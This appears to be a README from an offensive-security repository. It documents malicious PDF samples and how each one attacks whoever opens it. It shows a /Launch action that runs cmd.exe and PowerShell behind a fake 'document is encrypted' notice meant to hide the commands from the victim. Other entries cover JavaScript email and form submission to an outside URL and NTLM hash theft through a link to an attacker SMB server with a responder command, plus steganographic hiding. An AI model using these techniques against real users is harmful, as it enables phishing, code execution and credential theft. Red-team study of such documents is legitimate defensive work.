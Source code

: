 # PDF:

Open pdf in vim for inspect them...

## [1] claw_powershell.pdf 

Run powershell command.. A warning will be prompt to the user.<br>
![warning msg](pdf/warning_psh.png)<br>
But if we scroll up, we can see:<br>
![warning2](pdf/warning_psh_cmd.png)
We use: 
- `Action/S/Launch/Win` for specifying wich action to do, in this case lunch action on windows.
- `/F (cmd.exe)` for lunch cmd.exe.
- `/P (/C start powershell.exe -Command "echo 'hello, this windows will be close in 10sec...'; sleep 10"` is the parameters to give to cmd.exe
- `This document is encrypted
To view the encrypted content please tick the "Do not show this message again" box
and press Open.` is for "hide" the previouses steps. (3lines and the victim will not see what we really do (unless if he scroll up)) 
### [!] Modify message popup will only work with adbe < 9.3.4

---

## [2] claw_js-alert.pdf

Using `/JS` will execute some javascript. Some commands are restricted.<br>
But we can steal launch popup or send form. 
###email functions:
With adobe you have 4 functions for send emails:
- `app.mailMsg()`    : This function sends an email message with no attachments.
- `doc.mailForm()`   : This function sends the form data in fdp (Form Data Format) as a file attachment to the email. (dont work on adobe 9)
- `doc.mailDoc()`    : This function sends the entire PDF file as an email attachment.
- `doc.submitForm()` : This function can send form data in a variety of formats.

---

## [3] claw_post.pdf

Make a post .. <br>
```pdf
/S /SubmitForm
/F
<<
/F (http://172.25.0.7:8080/test.php)
/FS /URL
```

- `/S /SubmitForm`                       : The  type  of  action (in this case /SubmitForm
- `/F (http://172.25.0.7:8080/test.php)` : The  URL of the form
- `/FS /URL`                             : The file specificatin, in this case "/URL"

### [!] A popup will prompt the user for accept the post or not. The message can't be change (url + warnings)

Very usefull for retrieve adobe version (Reco):<br><br>
![version](pdf/get_adobe_version.png)

---

## [4] claw_responder.pdf

Retrieve username and hash .<br>
In this this case we use:
- `GoToR|GoToE` : (Go To Remote & Go To Embedded) The function to opens an embedded PDF file automatically without notifying the user.In this case we use `/F` (the location off the pdf) "/F (\\\\attacker_smb_server\\test)"

You should first run:<br>
```sh
sudo responder -I <INTERFACE> -wF
```
on the attacker host..<br>
![responder](pdf/responder.png)

---

## [5] claw_simple_steg.pdf

Hide stuff on non used object.

---

## [6] claw_b64-comment_steg.pdf

Hide stuff in pdf comment using `%`.

---

## [7] claw_img_steg.pdf

Hide stuff inside an image used by the pdf.<br>
For extract :<br>
```sh
binwalk --dd='jpeg:jpg' claw_img_steg.pdf
steghide extract -sf _claw_img_steg.pdf.extract/*jpg
#no password.. just press enter
```


